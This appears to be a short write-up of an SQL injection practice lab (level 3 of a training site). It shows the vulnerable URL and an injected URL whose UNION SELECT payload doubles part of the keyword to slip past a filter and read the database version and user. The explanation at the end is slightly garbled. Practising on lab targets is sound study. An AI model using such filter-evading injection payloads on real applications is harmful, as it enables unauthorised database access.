

Vulnereable Url : https://www.zixem.altervista.org/SQLi/level3.php?item=3
Injected url: https://www.zixem.altervista.org/SQLi/level3.php?item=1%27+UNIONON+SELECT+version()+,+user(),+NULL++,NULL%27+--

The application might be filtering or removing the word UNION, causing the SQL query to become invalid. I experimented with modifying the word slightly, and it ended up as UNON.